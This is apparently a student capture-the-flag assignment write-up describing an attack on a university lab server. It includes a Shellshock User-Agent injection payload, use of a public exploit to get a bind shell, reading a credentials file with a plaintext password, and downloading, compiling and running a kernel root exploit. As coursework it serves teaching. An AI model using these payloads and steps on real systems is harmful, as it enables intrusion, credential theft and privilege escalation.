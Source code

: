 ```yaml
---
title: Assignment 6
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
header-includes:
  - \usepackage{listings}
---
```


# Capture the Flag

To establish the servers IP address from the hostname we used `getent`:

```
$ getent hosts ossec-host.cs.ru.nl
131.174.142.7   ossec-host.cs.ru.nl
```

The first thing we tried, was connecting to the server via telnet, but the connection was refused:

```bash
$ telnet ossec-host.cs.ru.nl
Trying 131.174.142.7...
telnet: Unable to connect to remote host: Connection refused
```

Next we tried connecting via SSH, and there is indeed an SSH server running on the host, but connecting requires a password that we do not know:

```
$ ssh root@ossec-host.cs.ru.nl
root@ossec-host.cs.ru.nl's password:
Permission denied, please try again.
```

We can use `nmap` to scan for open ports on the host server:

```
nmap 131.174.142.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-10 19:00 CET
Nmap scan report for ossec-host.cs.ru.nl (131.174.142.7)
Host is up (0.073s latency).
Not shown: 937 filtered ports, 61 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

The only two open ports are port 22 for ssh, and port 80 for http.

We tried to exploit the Shellshock vulnerability over HTTP, but for some reason it did not work. We asked the student assistants about this, but they could not identify the problem either. The command we used was

\begin{lstlisting}[breaklines=true]
curl -H "User-Agent: () { :;}; /bin/ls" 'http://ossec-host.cs.ru.nl/cgi-bin/fortunecow.sh'`
\end{lstlisting}

The student assistants recommended downloading a ready made exploit script, so we found one on <https://exploit.db.com/exploits/34900/>, and successfully used it to get a shell on the remote host.

\begin{lstlisting}[breaklines=true]
$ python2 34900.py rhost=ossec-host.cs.ru.nl rport=12345 payload=bind pages=/cgi-bin/fortunecow.sh
[-] Trying exploit on : /cgi-bin/fortunecow.sh
[!] Successfully exploited
[!] Connected to ossec-host.cs.ru.nl
ossec-host.cs.ru.nl> uname -a
Linux ossec-host 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
ossec-host.cs.ru.nl> whoami
www-data
ossec-host.cs.ru.nl> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

As you can see the server uses Ubuntu with Linux kernel version 3.13.0, and we do not have root privileges, and are logged in as user `www-data`.

We look for the first flag, and the credentials file, that is located in the same directory, according to the instructions:

```
ossec-host.cs.ru.nl> find / -iname flag1
/var/www/flag1
ossec-host.cs.ru.nl> ls /var/www
credentials.txt
flag1
html
ossec-host.cs.ru.nl> cat /var/www/credentials.txt
SSH
username: bob
password: ampere llama
```

Now we can log in via SSH.

If we look on Exploit DB for the kernel version, we find the following exploit: <https://www.exploit-db.com/download/37292.c>, which can be used to get root privileges.

To run the exploit, we simply log in via SSH, download the exploit code, compile it, and finally run it, then we are root:

```
# On my PC
$ ssh bob@ossec-host.cs.ru.nl
bob@ossec-host.cs.ru.nl's password:
# Now we are on the server
$ cd /tmp/
$ curl https://www.exploit-db.com/download/37292.c > exploit.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5119  100  5119    0     0   2535      0  0:00:02  0:00:02 --:--:--  2536
$ gcc -o exploit exploit.c
$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(bob)
```

The second flag is in the `/root` directory and buried in an 25 megabyte file, according to the instructions. We found the file, and copied it to out local machine using `scp`.

Looking at the file it consists of random characters, form which we have to extract the payload somehow. We tried filtering for words that consists solely of letters, and after that yielded nothing added the restriction that the words must be at least 5 characters long:

```
$ grep -oP '\b[A-Za-z]+\b' flag2
f
f
VC
fzshz
c
mi
w
y
XBj
Wxb
# lots of output omitted
grep -oP '\b[A-Za-z]{5,}\b' flag2
fzshz
FJsun
pAqdm
wJcjm
pgXucO
fcZaf
ngoea
hhnZY
xhZBsrep
Cajhst
# lots of output omitted
```

Neither of these methods revealed the hidden message in the flag.

## Flag 1

The first flag was decoded with the TOPKEK cipher, in which `KEK` stands for 0, and `TOP` stands for 1, followed by $n$ `!`s which indicate how often the digit must be repeated. We wrote a little script to translate to binary:

\begin{lstlisting}[
	breaklines = true,
	literate = {0}{{0\allowbreak}}{1}
	{0}{{0\allowbreak}}{1}
]
$ ./decode_topkek.sh flag1
01010111011101010110001001100010011000010010000001101100011101010110001001100010011000010010000001100100011101010110001000100000011001000111010101100010001000000010110100100000010100100110100101100011011010110010000001010011011000010110111001100011011010000110010101111010
\end{lstlisting}

When translated to ASCII, the flag reads `Wubba lubba dub dub - Rick Sanchez`.
